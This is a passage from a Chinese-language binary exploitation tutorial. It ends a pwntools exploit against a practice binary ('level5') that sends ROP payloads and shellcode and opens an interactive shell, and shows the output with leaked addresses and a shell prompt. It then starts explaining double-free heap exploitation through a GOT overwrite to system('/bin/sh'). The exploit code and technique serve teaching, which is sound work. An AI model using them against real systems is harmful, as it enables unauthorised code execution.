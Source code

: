 ```
payload3 += p64(shellcode_addr) 
print "\n#############sending payload3#############\n"
p.send(payload3)
sleep(1)    
#raw_input() 
p.send(shellcode+"\n")
sleep(1)    
p.interactive() 

```

成功pwn后的效果如下：

```
$ python exp8.py 
[+] Started program './level5'
got_write: 0x601000
got_read: 0x601008
plt_read: 0x400440
linker_point: 0x600ff8
got_pop_rax_ret: 0x23950
off_mmap_addr: -0x9770
off_pop_rax_ret: 0xc2670

#############sending payload1#############

write_addr: 0x7f9d39d95fc0
mmap_addr: 0x7f9d39d9f730
pop_rax_ret: 0x7f9d39cd3950

#############sending payload2#############

linker_addr + 0x35: 0x7f9d3a083235

#############sending payload3#############

[*] Switching to interactive mode
$ whoami
mzheng 
```

## 0x03 堆漏洞利用之double free

讲了那么多stack overflow的例子，我们现在换换口味，先从double free开始讲一下堆漏洞的利用。Double free的意思是一个已经被free的内存块又被free了第二次。正常情况下，如果double free，系统会检测出该内存块已经被free过了，不能被free第二次，程序会报错然后退出。但是如果我们精心构造一个假的内存块就可骗过系统的检测，然后得到内存地址任意写的权限。随后就可以修改got表将接下来会执行的函数替换成system()再将参数改为我们想要执行的指令，比如 `"/bin/sh"` 。最后就可以执行 `system("/bin/sh")` 了。

想要学习double free，首先要了解什么是free chunk和allocated chunk。这个在网上有大量的资料，请感兴趣的同学自学。

![](http://img2.tuicool.com/UveQze.jpg!web)

然后要了解Fast bin，Unsorted bin，Small bin和Large bin的概念。这个可以看这篇文章学习：
